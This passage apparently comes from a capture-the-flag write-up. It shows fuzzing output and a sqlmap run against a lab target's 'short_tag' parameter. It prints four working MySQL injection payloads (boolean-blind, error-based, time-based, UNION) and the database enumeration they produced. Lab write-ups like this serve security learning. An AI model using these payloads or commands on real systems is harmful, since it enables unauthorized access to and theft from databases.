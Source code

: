 ```bash

;                       [Status: 200, Size: 268, Words: 18, Lines: 11]
/                       [Status: 200, Size: 268, Words: 18, Lines: 11]
:: Progress: [32/32] :: Job [1/1] :: 18 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

<h3>sqlmap</h3>
<p>sqlmap</code> provided options to test the SQL injection<br><br>

- <code>boolean-based blind</code> -->   short_tag=smart' AND 6723=6723-- ylvK<br>
- <code>error-based</code> --> short_tag=smart' AND (SELECT 1440 FROM(SELECT COUNT(*),CONCAT(0x7178627171,(SELECT (ELT(1440=1440,1))),0x7178766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- HKpE<br>
- <code>time-based blind</code> --> short_tag=smart' AND (SELECT 3299 FROM (SELECT(SLEEP(5)))IFSW)-- PgAQ
- <code>UNION query</code> --> short_tag=-5166' UNION ALL SELECT CONCAT(0x7178627171,0x5061795057766459577454595a72774f444b7654474970706d584d7a727a5669616b5a516a4c736c,0x7178766a71)-- -
</p>

```bash
:~/Moebius# sqlmap -u 'http://TargetIP/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --batch --dbs --threads 10
...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 6723=6723-- ylvK

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 1440 FROM(SELECT COUNT(*),CONCAT(0x7178627171,(SELECT (ELT(1440=1440,1))),0x7178766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- HKpE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: short_tag=smart' AND (SELECT 3299 FROM (SELECT(SLEEP(5)))IFSW)-- PgAQ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-5166' UNION ALL SELECT CONCAT(0x7178627171,0x5061795057766459577454595a72774f444b7654474970706d584d7a727a5669616b5a516a4c736c,0x7178766a71)-- -
...
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
...
available databases [2]:                                                                                                                                                    
[*] information_schema
[*] web
```
